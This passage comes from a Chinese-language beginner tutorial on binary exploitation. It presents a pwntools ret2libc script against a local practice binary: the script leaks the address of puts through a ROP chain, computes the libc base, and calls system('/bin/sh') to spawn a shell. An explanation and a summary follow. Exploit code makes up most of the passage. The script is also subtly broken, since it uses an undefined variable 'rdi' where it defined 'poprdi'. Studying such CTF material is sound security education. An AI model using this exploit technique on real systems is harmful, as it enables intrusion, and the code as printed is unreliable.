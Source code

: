 脚本：

```plain
from pwn import*

io = process('./text')
libc=ELF('./libc.so.6')
puts_adr=0x401060
puts_got=0x404018
poprdi=0x401273
ret=0x40101a
main=0x4011BD
payload1 = b'a'*(0x10+8)+p64(rdi)+p64(puts_got)+p64(puts_adr)+p64(main)
io.sendline(payload1)
puts_real_addr=u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base = puts_real_addr - libc.sym["puts"]
system = libc_base + libc.symbols['system']
binsh = libc_base+next(libc.search(b"/bin/sh\x00"))
payload2 = b'a'*(0x10+8)+p64(ret)+p64(rdi)+p64(binsh)+p64(system)
io.sendline(payload2)
io.interactive()
```

脚本解析：

通过pwntools中的ELF模块解析libc文件，结合recv模块接收泄露出的puts函数真实地址得到libc基地址，从而能在libc中找出system函数和binsh字符串的真实地址，再通过劫持返回地址以及参数即可执行system("/bin/sh")

## 总结

ret2系列之一讲解了ret2系列中的4个基础的劫持方法，虽然他们方法简单，但是危害是十分巨大的，希望对初入二进制漏洞利用学习的师傅们有帮助

